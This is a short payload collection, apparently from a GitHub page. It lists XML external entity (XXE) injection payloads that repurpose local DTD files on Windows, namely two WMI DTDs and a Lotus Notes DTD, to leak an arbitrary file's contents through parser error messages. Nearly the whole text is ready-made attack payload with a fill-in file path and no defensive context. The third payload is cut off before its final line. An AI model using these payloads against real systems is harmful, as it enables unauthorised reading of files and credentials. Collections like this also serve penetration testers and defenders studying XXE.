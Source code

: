 # XXE payloads for specific DTDs

**DTD File:** `/C:\Windows\System32\wbem\xml\cim20.dtd`

**Injectable entity:** `%CIMName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">

    <!ENTITY % CIMName '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/C:\Windows\System32\wbem\xml\wmi20.dtd`

**Injectable entity:** `%CIMName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\wmi20.dtd">

    <!ENTITY % CIMName '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/C:\Program Files (x86)\Lotus\Notes\domino.dtd`

**Injectable entity:** `%boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Program Files (x86)\Lotus\Notes\domino.dtd">

    <!ENTITY % boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

```